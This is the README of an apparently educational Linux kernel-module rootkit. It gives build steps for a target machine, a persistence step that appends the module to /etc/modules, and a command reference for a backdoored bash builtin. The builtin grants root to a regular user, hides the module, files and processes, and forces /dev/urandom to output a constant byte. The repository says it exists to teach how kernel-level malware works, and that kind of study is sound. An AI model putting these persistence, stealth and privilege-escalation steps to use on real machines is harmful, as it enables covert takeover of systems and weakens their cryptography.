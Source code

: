 
# linux rootkit

this is a kernel module-based rootkit for linux that supports privelige escalation, compromising random number generation, file and directory hiding, and process injection.

this is a project to allow participants to better understand the inner workings of malware at the kernel level and to gain a deeper understanding of the constraints and possibilities of actions in the kernel space.


## Building and Installation

step 1: open up the Makefile and set KDIR to the path of the linux source tree. this should be configured identically to the target machine's kernel, and it must be configured with support for kprobes and ftrace(these are technically not necessary for privelige escalation or toggling the module's visibility, but we haven't incorporated a compile option for only those features yet).

```
KDIR = ~/learning/linux #replace with appropriate path
```
step 2: run the Makefile to compile the kernel module, and copy rootkit_module.ko over to the target machine
```
Make
```

step 3: copy over bash-4.3 and bdoor_common.h to the target machine, and compile Bash by running configure --with-bash-malloc=no and make (to have this work with different versions of Bash, go int bash-4.3/builtins, copy over gibroot.def to the other version's builtin folder, and change its Makefile.in to conform with https://stackoverflow.com/questions/10063417/how-do-i-add-an-internal-command-to-bash)
```
cd bash-4.3
./configure --with-bash-malloc=no
make
```

(extra) step 4: to make the rootkit persistant,  while root in the target machine, move rootkit_module.ko into the folder specified by /lib/modules/$(uname -r)/, and add the line "rootkit_module" to the bottom of /etc/modules. this make kmod load the module upon boot.
```
cp rootkit.ko /lib/modules/$(uname -r)/
echo "rootkit" >> /etc/modules
```


## Run
to load the module, while root run
```
insmod rootkit.ko
```
the module can also be removed with
```
rmmod rootkit.ko
```

now, as a regular user run the compiled bash executable. this will grant you access to the new gibroot builtin
```
cd bash-4.3
./bash
```

## Command Reference

to escalate shell privelige to root, use
```
gibroot root
```

to restore original shell priveliges, use

```
gibroot unroot
```

to hide the kernel module from userspace, use
```
gibroot hmod
```

to restore the kernel module's visibility, use
```
gibroot smod
```

to hide a file(s) or directory(s), use
```
gibroot hide [file(s)]
```

to unhide files, use
```
gibroot show [file(s)]
```

to look at what files are being hidden, use
```
cat /proc/hidden_files
```

to compromise /dev/urandom so it always writes 0x20, use
```
gibroot urand
```

to whitelist processes and users from file hiding, use
```
gibroot wadd [TYPE] [NAME/ID]
```
supported types are PROCNAME,PID,UID,GID

to remove an entry from the whitelist, use
```
gibroot wrem [TYPE] [NAME/ID]
```

to view the entries in the whitelist, use
```
cat /proc/whitelist
```

to change the name of your bash process to something else, use
```
gibroot newname [NAME]
```
names of up to 16 characters are allowed (max length of comm field in a task struct)
